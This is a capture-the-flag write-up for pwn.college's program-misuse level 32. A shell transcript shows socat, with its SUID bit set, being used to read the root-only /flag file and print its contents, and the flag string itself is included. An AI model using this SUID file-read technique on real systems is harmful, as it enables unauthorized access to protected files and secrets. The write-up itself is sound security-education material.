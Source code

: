 `socat`

`socat is a command line based utility that establishes two bidirectional byte streams and transfers data between them.`

It is advised to read the `man socat`.

`socat` is a versatile utility, and while it can used to read files. its primary strength lies in establishing data streams between different sources.

```bash
hacker@program-misuse-level-32:~$ cd /challenge/
hacker@program-misuse-level-32:/challenge$ ls
babysuid_level32
hacker@program-misuse-level-32:/challenge$ ./babysuid_level32 
Welcome to ./babysuid_level32!

This challenge is part of a series of programs that
will enable you to read flags by making them execute other commands.

I just set the SUID bit on /usr/bin/socat.
Try to use it to read the flag!

IMPORTANT: make sure to run me (./babysuid_level32) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/socat!
hacker@program-misuse-level-32:/challenge$ cd /
hacker@program-misuse-level-32:/$ socat /flag
2024/01/03 04:59:52 socat[711] E exactly 2 addresses required (there are 1); use option "-h" for help
hacker@program-misuse-level-32:/$ socat /flag /home/hacker/
2024/01/03 05:00:22 socat[978] E open("/home/hacker/", 02002, 0666): Is a directory
hacker@program-misuse-level-32:/$ touch /home/hacker/flag
hacker@program-misuse-level-32:~$ ls -l /home/hacker/flag
-rw-r--r-- 1 hacker hacker 57 Jan  3 05:00 /home/hacker/flag
hacker@program-misuse-level-32:/$ socat /flag /home/hacker/flag
hacker@program-misuse-level-32:/$ cd
hacker@program-misuse-level-32:~$ ls
Desktop  demo  flag
hacker@program-misuse-level-32:~$ cat flag
pwn.college{AMIeLKMRylXdSLsLa9zGoFM6y9v.0FN3EDL0AjNzQzW}
hacker@program-misuse-level-32:~$ socat -u FILE:/flag STDOUT
pwn.college{AMIeLKMRylXdSLsLa9zGoFM6y9v.0FN3EDL0AjNzQzW}
```

Here in this problem, I first tried `socat /flag`. But it says `socat` requires 2 addresses and there is only 1 which is `/flag`. That means one address for reading and other address for writing.

So I tried `socat /flag /home/hacker` but it says `/home/hacker` is a directory. That means I should pass something other than `directory`. Let's take a file. I create a `flag` file with `touch /home/hacker/flag` in my `home` directory. And then I write `socat /flag /home/hacker/flag`
. As I have the read access to this `/home/hacker/flag` so I `cat` the flag and found the `flag`.

You can also use `socat -u FILE:/flag STDOUT` .

